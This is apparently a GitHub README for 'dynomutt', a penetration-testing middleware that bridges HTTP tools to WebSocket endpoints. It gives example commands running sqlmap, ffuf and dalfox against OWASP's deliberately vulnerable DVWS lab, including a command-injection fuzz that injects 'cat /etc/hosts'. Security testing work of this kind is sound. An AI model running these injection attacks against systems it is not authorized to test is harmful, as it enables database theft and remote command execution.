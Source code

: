 # dynomutt

#### Asynchronous WebSocket Injection Middleware

![image](https://github.com/dualfade/dynomutt/assets/2522757/c017f4aa-dce0-4bff-9e69-ce77f726b0b1)

[![PyPI - Version](https://img.shields.io/pypi/v/dynomutt.svg)](https://pypi.org/project/dynomutt)
[![PyPI - Python Version](https://img.shields.io/pypi/pyversions/dynomutt.svg)](https://pypi.org/project/dynomutt)

---

**Table of Contents**

- [Installation](#installation)
- [Usage](#usage)
- [Examples](#examples)
- [Notes](#notes)
- [To Do](#todo)
- [Screenshots](#screenshots)
- [License](#license)

## Installation

```console
in development:
```

## Usage

```usage
hatch run python src/dynomutt/dynomutt.py -h
usage: dynomutt [-h] [-l LHOST] [-p LPORT] [-u URL] [-H HEADERS] [-d] [-v] [-k] [-t TIMEOUT] [--ms MATCH_STRING] [-e]

Asynchronous Websocket Injection Middleware

options:
  -h, --help            show this help message and exit
  -l LHOST, --lhost LHOST
                        Listen Host
  -p LPORT, --lport LPORT
                        Listen Port
  -u URL, --url URL     Target WebSocket Url
  -H HEADERS, --headers HEADERS
                        Header `Name: Value, Name: Value`, separated by comma.
  -d, --debug           Enable Bottle Debug
  -v, --verbose         Enable Verbose Mode
  -k, --ignore-ssl      Ignore SSL Warnings
  -t TIMEOUT, --timeout TIMEOUT
                        WebSocket Timeout in seconds
  --ms MATCH_STRING     Match Response String
  -e, --examples        Examples Menu
```

## Examples

```examples
hatch run default:python src/dynomutt/dynomutt.py -e

=> Dynomutt Examples:
[usage] dynomutt.py -l '127.0.0.1' -p '8082' -u 'ws://dvws.local:8080/reflected-xss'
[usage] dynomutt.py -l '127.0.0.1' -p '8082' -u 'ws://dvws.local:8080/authenticate-user-blind' -d -H 'User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36' -t 30
[usage] dynomutt.py -l '127.0.0.1' -p '8002' -u 'wss://dvws.local:8080/file-inclusion' -d -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c, User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36' -k -t 30
[usage] dynomutt.py -l '127.0.0.1' -p '8000' -u 'ws://dvws.local:8080/command-execution' -H 'User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36' -t 30 -v --ms 'TJE\w.*?$'

=> HTTP Verb CRUD Operations:
[listener] http://127.0.0.1:8082/<path:path>
[listener] http://127.0.0.1:8082/param?data=<injection>

=> Sqlmap Example with Listener
python sqlmap.py -u 'http://127.0.0.1:8082/param?' --data='{"auth_user":"*","auth_pass":"YWRtaW4="}' --tamper base64encode --dbms mysql --risk 3 --level 5 --method POST

=> Ffuf using custom command file-inclusion wordlist
ffuf -X GET -u 'http://127.0.0.1:8082/pages/FUZZ' -w /tmp/0.txt -mc all -fc 500

=> Ffuf special char encoded injection, command injection test
pencode -input ${PWD}/specialchars.txt urlencode | ffuf -X GET -u 'http://127.0.0.1:8082/param?data=127.0.0.1FUZZcat%20/etc/hosts' -w - -mc all -fc 404 -t 3
ffuf -u 'http://127.0.0.1:8000/param?data=127.0.0.1FUZZ' -w ~/Github/custom_list/wordlists/SecLists/Fuzzing/command-injection-commix.txt -t 1 -rate 1

=> Dalfox reflected xss
dalfox -X GET url 'http://127.0.0.1:8000/param?data=Dalfox' --cookie 'PHPSESSID=sp9a9c746au3osa8maj53km312'

```

## Notes

- **This project in development, please use at own discretion.**
- A few highlights:

  - It's fast.
  - Dynomutt uses asyncio websockets.
  - Dynomutt uses bottle as middleware routing and an asynchronous gevent listener.
  - Two dedicated injection endpoints, one dynamic and one parameterized.
  - All HTTP verbs supported, main focus is WebSocket CRUD injection.
  - WebSocket Headers and Authorization schemes.
  - WebSocket Proxy token?= support.
  - More ?

- Up front; I am not a developer.
- There is no time to fool around with lots of semi working tools on a live engagement, which is how this
  project came to be.

## ToDo

- All initial testing has been done against OWASP dvws.
  - Additional testing: [nodejs-websocket-sqli](https://github.com/rayhan0x01/nodejs-websocket-sqli)
- Needs testing against functinal entity with Authorization Tokens and Secure Socket Layer.
- Needs testing against modern wss:// ?token=
- Auto update index route.
- Finish Burp raw integration.
  - may not do this ? Most tools support this already?
- Fix XSS injection, as this sorta works.
- Fix args ordering.
- Probabaly a metric shit ton more, and as we go they say..

## Screenshots

```
Dynomutt Middleware Server --
hatch run default:python src/dynomutt/dynomutt.py -l '127.0.0.1' -p '8000' -u 'ws://localhost:8156/ws' -d -H 'User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36' -t 30

Sqlmap --
python sqlmap.py -u 'http://127.0.0.1:8000/param?' --data '{"employeeID":"*"}' --dbms mysql --risk 3 --level 5
```

![2023-08-12_21-23_1](https://github.com/dualfade/dynomutt/assets/2522757/1469d46e-6959-4867-a7e8-af35319c1883)
![2023-08-12_21-23](https://github.com/dualfade/dynomutt/assets/2522757/0be4b41d-768d-4eb2-a057-1ec3411dcd5c)

## License

`dynomutt` is distributed under the terms of the [MIT](https://spdx.org/licenses/MIT.html) license.

[![Hatch project](https://img.shields.io/badge/%F0%9F%A5%9A-Hatch-4051b5.svg)](https://github.com/pypa/hatch)
